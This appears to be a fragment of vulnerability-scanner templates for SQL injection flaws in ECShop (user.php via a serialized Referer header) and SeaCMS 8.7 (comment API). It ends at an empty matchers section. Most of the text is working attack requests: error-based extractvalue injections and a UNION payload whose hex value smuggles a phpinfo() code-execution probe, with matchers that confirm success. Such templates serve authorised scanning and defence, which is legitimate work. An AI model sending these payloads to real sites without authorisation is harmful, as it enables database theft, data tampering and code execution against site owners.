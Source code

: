 - severity - critical
- tags - sqli,php,ecshop
## Requests
### Step - 1
```
GET /user.php?act=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}

```
### Step - 2
```
GET /user.php?act=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

```
### Matchers

**Type - word**
- words
    1. XPATH syntax error:
    2. [error] =>
    3. [0] => Array
    4. MySQL server error report:Array
- condition - and

**Type - word**
- words
    1. PHP Extension
    2. PHP Version
- condition - and

---
# SeaCMS 8.7 - SQL Injection
## Description
- SeaCMS 8.7 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - seacms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20md5({{num}})))),@`%27`
### Matchers
